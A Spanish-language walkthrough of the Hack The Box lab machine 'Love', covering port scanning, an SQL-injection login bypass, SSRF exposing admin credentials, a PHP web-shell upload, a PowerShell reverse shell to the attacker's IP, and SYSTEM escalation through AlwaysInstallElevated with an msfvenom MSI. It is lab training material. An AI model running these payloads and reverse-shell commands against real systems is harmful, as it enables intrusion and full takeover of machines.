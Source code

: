 # 10.10.10.239 - Love

![Love](https://user-images.githubusercontent.com/96772264/197388747-319cf1cf-6a22-4e92-aecf-e255da52f783.png)

-------------------

# Parte 1 - Reconocimiento

Tenemos abiertos los puertos: 80 (http) ,135(rpc),139(smb tambien),443,445(smb),3306(sql),5000,5040,5985,5986,7680

### Nmap -> escaneo de servicios

```sudo nmap -sCV -T5 -p443,445,3306,5000,5040,5985,5986,7680 10.10.10.239```
Las conclusiones que nos da Nmap son estas:
- El puerto 443 da error 403 Forbidden, pero es un Apache 2.4.46 con PHP 7.3.27.
- Tenemos el dominio staging.love.htb y la empresa se llama *ValentineCorp*
- Por smb tenemos que el sistema se llama LOVE y el Workgroup es WORKGROUP
- Puerto 5000, lo mismo que en el 443, error 403 y Apache 2.4.46/PHP 7.3.27.
 

### Puerto 80:
└─$ whatweb http://10.10.10.239
http://10.10.10.239 [200 OK] Apache[2.4.46], Bootstrap, Cookies[PHPSESSID], OpenSSL/[1.1.1j] PHP[7.3.27], IP[10.10.10.239], JQuery, PasswordField[password], Script, Title[Voting System using PHP]

### Puerto 445 y 139:

No podemos acceder sin creds a ninguno.
```console
└─$ smbclient -L 10.10.10.239 -N 
session setup failed: NT_STATUS_ACCESS_DENIED
└─$ rpcclient -U "" 10.10.10.239 -N
Cannot connect to server.  Error was NT_STATUS_ACCESS_DENIED
```
### Puerto 443 
La web da forbidden, pero al tener ssl ```openssl s_client -connect love.htb:443``` obtenemos el mail de 
roy@love.htb.

```rpcclient -U "roy" 10.10.10.239 -N # NT_STATUS_LOGON_FAILURE```
Pero intentar bruteforcear la contraseña no da resultado: ```crackmapexec smb 10.10.10.239 -u "roy" -p /usr/share/wordlists/rockyou.txt```

-------------------------

# Parte 2: Explotación web

![lovehtb_1](https://user-images.githubusercontent.com/96772264/197388800-902b1bae-7d9a-4ee9-b064-95ab048cdd3a.PNG)


Como esto bien decia, la web http://10.10.10.239 / http://love.htb tiene el formulario este de "php voting system"
Peticion -> POST a /login.php voter=123&password=123&login= PHPSESSID="8uonobi5kr3p0cvm2hir2o2g63"
Nos ha dado que "Cannot find voter with the ID" cosa que me incita a fuzzear este mismo.

```console
└─$ hydra -L ./numbers.txt -p test love.htb https-post-form "/login.php:voter=^USER^&password=^PASS^:F=Cannot find voter with the ID" 
```
Pero tras un rato nada.

En la seccion de comentarios hay ```<!-- WARNING: Respond.js doesn't work if you view the page via file:// -->``` Pero la ruta "/js/Respond.js" da error 404.

Como no he podido fuzzear el Voting System (y para la ruta staging tambien), queda buscarle en el searchsploit.
```searchsploit Voting System``` Hay varios para autenticarse mediante SQLI, uno de ellos dice de poner
```admin:' or ''='``` a */admin* pero no dio resultado. En cambio otro mas largo si
```login=yea&password=admin&username=dsfgdf' UNION SELECT 1,2,"$2y$12$jRwyQyXnktvFrlryHNEhXOeKQYX7/5VK2ZdfB9f/GcJLuPahJWZ9K",4,5,6,7 from INFORMATION_SCHEMA.SCHEMATA;-- -```

Lo del medio que envia parece un formato de hash a juzgar por los "$". Una vez en la web del Voting system tenemos que el usaurio se llama "Neovic Devierte" 
(puede que nos sirva para los otros servicios).

![lovehtb_2](https://user-images.githubusercontent.com/96772264/197388822-dfcecd45-a2bf-449d-b0dc-9a3128dcfebf.PNG)

Hay otro exploit que habla de un file upload en /candidates.php, no esta nada sanitizado, pero si intento subir
algo me da problemas el campo de *Position*. 

![lovehtb_3](https://user-images.githubusercontent.com/96772264/197388834-55fac078-1160-46fb-90d0-008d2d35d63c.PNG)

En staging.love.htb hay un campo para peticiones.
Si le pido que se la haga a mi servidor me responde

![lovehtb_4](https://user-images.githubusercontent.com/96772264/197388841-1fa009bb-4a4f-401b-b5ba-febcf8b73caf.PNG)

└─$ sudo python3 -m http.server   
[sudo] password for cucuxii:
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.239 - - [23/Oct/2022 10:56:37] "GET / HTTP/1.1" 200 -
10.10.10.239 - - [23/Oct/2022 10:59:11] "GET /shell.php HTTP/1.1" 200 -

Pero el php no lo interpreta. 
Si se lo pido al loscalhost me sale el formulatio del Voting System. Teniamos varias paginas Forbidden.

La web del puerto 443 no me deja verla ```http://127.0.0.1:443 o https://127.0.0.1:443``` Pero la del 5000 si. Nos dan las creds "admin:@LoveIsInTheAir!!!!" 
Con el puerto 80 dichas creds nos llevan a la web de antes (que seguimos teniendo problema con subir el Candidato)

![lovehtb_5](https://user-images.githubusercontent.com/96772264/197388860-915adddc-f7f3-4fc5-8ac4-f873ffa98392.PNG)

Tampoco nos sirven para el smb ni para admin ni para roy.

En la web aparte de subir Candidatos puedes subir Votantes, ahí no hay ningun campo que nos de problemas.
Subí el cmd.php y en la lista de Votantes me salió la foto (obviamente como es un shell.php no se muestra tal)

![lovehtb6](https://user-images.githubusercontent.com/96772264/197388876-34ff9dc0-cad2-4dbe-9f14-9dcc5051c6ec.PNG)

-------------------------

# Parte 3: Accediento al sistema

¿Pero donde está la backdoor? Como se subió en el campo de *foto*, al darle a *copy image location* 
```http://love.htb/images/shell.php?cmd=whoami```

Como tenemos ejecucion remota de comandos, ahora solo tenemos que ejecutar una reverse shell (y escuchar por netcat). 

La reverse shell seria esta:
```console
curl -s -X POST -d "powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.14.15%27%2C443%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit.php
```
Esto es la version urlencodeada de un [oneliner de powerhsell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3):
```powershell
*powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"*
```
Nos ponemos en escucha por el netcat.
```console
└─$ sudo nc -nlvp 443
whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> 
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
[*] Phoebe::LOVE:aaaaaaaaaaaaaaaa:f61b6d088db119ce592bb4d0a56f709b:010100000000000000718863cde6d8019d6b0265e2c0f8150000000001001000730065006a00720067004f004c006c0003001000730065006a00720067004f004c006c000200100053005200610071005900410051004d000400100053005200610071005900410051004d000700080000718863cde6d80106000400020000000800300030000000000000000000000000200000dc7b78e8b0b71bd6254ed079cc9343e57d00d68f7334579eb372fe74b4607ffe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310035000000000000000000

PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\enumeracion_windows.bat . 
```
-------------------------

# Parte 4: Explotado Always Install Elevated

Nuestro [script](https://github.com/CUCUxii/win_enum/blob/main/enumeracion_windows.bat) nos dice que:
- Usuarios: Administrator, Phoebe
- El always Install elevated está activado

La manera de explotar esto es 
```console
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=666 -f msi -o reverse.msi
Saved as: reverse.msi
PS C:\xampp\htdocs\omrs\images> copy \\10.10.14.15\carpeta\reverse.msi .
msiexec /quiet /qn /i C:\xampp\htdocs\omrs\images\reverse.msi
└─$ sudo nc -nlvp 666
C:\WINDOWS\system32>whoami
whoami
nt authority\system
```

